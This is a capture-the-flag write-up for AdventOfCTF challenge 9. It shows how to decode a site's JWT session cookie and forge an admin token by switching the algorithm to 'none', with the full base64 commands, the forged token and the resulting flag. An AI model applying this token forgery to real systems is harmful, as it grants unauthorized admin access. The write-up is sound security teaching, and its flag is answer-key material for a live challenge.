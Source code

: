 +++
author = "Maik de Kruif"
title = "Challenge 9 - AdventOfCTF"
date = 2020-12-11T21:24:52+01:00
description = "A writeup for challenge 9 of AdventOfCTF."
cover = "img/adventofctf/973ded4b2381c28af6c24d3d670303c6.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 900

## Description

Can you find a way to get into the Naughty List Management System as an admin?

Visit <https://09.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the website, we're greeted with a login screen. When we enter random credentials, we're greeted with some text: "Hey **user** your **password** is incorrect.".

This took me quite some time to find out, but it's actually fairly obvious. I started by taking a look at the cookies, but there were none. Then I tried some common URLs, but nothing (except `/admin`). Then I took another look at the error message; some bold text... The username is `user` and the password is `incorrect`.

When entering these credentials, we get redirected to `/admin` with a message: "The naughty list is currently empty....". This time, however, we also got a cookie.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ.rre-8SBgllKlu7KpJFXuO-SEN3s-9IPRSJ7hmclXpNs
```

### JWT

This looks like a JWT. We can confirm this by decoding the text before the first period (`.`):

```bash
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
```

```json
{ "typ": "JWT", "alg": "HS256" }
```

It is a JWT that uses the HMAC-SHA256 (`HS256`) algorithm. Using a [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) is a compact, URL-safe, way of representing claims between a web server and a client. Let's decode the second part as well.

```bash
echo -n "eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ" | base64 -d
```

```json
{
  "auth": 28961,
  "text": "I do love a good puzzle.",
  "role": "user",
  "iat": 1607717857
}
```

We don't have to decode the last part as it is a secret that consists of non-printable characters.

The role in the JWT probably has to be changed to `"admin"` so let's try to do that.

#### Modifying a JWT

To modify a JWT, we would have to know the secret that was used to create it. If only there were some [vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) 😀.

In a JWT you can use `none` as the algorithm. It is intended to be used for situations where the integrity of the token has already been verified. Luckily for us, some libraries treat tokens signed with the `none` algorithm as a valid token with a verified signature. This means anyone can create their own "signed" tokens with whatever payload they want, allowing arbitrary account access on some systems.

To create such a JWT, we just reverse the process. Firstly, we create the first part of the token.

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

Then the middle part:

```bash
echo -n '{"auth":28961,"text":"I do love a good puzzle.","role":"admin","iat":1607717857}' | base64
> eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30=
```

And finally, the secret. We can leave this empty because we use the `none` algorithm.

Putting all of this together and removing the padding (`=`), we get `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30.`

## Solution

When setting the cookie to this value and reloading the page, we get the flag: `NOVI{Jw7_f@ilure_in_n0ne}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#9-10).
